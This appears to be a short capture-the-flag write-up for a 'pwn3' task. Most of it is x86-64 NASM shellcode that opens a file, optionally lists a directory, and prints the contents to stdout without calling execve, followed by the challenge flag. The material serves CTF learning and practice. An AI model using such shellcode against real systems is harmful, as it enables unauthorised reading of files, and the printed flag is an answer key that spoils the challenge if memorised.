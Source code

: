 ```nasm

section .text

_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi
xor byte [rdi + {длина filename}], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi
syscall

; read/getdents
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff
xor rax, rax
; add al, 78 ; добавить для getdents
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/filenameA"
```
Находим файл this_is_flag, читаем.
Связанные скрипты в [./pwn3/](./pwn3/).

`flag`: nto{N0_execve_D03SnT_m34n_n0_PWN}

